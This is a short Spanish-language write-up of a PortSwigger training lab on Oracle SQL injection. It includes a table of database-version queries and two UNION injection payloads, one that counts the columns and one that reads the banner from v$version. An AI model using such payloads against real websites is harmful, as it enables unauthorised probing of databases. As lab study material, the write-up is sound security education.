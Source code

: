 # 5 - Querying the database type and version on Oracle

> This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
>
>  To solve the lab, display the database version string.

Si vemos el [cheatsheet ](https://portswigger.net/web-security/sql-injection/cheat-sheet)nos muestra como obtener la version 

|  |  |
| :--- | :--- |
| Oracle | `SELECT banner FROM v$version SELECT version FROM v$instance` |
|  Microsoft |  `SELECT @@version` |
|  PostgreSQL |  `SELECT version()` |
|  MySQL |  `SELECT @@version` |

Hay que ver que tantas columnas esta retornando:

 `'+UNION+SELECT+'abc','def'+FROM+dual--`

**Luego** 

```text
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

